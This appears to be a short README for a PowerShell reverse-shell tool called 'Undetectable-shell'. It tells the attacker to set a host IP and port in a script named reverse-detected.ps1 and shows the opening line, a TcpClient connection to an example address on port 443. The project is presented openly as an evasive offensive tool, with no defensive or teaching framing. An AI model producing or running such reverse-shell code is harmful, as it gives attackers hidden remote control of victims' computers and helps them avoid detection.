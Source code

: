 # Undetectable-shell

## On the attacker's machine :

### You need to replace HOST_IP & HOST_PORT in reverse-detected.ps1
### like :

```
$socket = new-object System.Net.Sockets.TcpClient("10.150.150.191", 443);.....
```
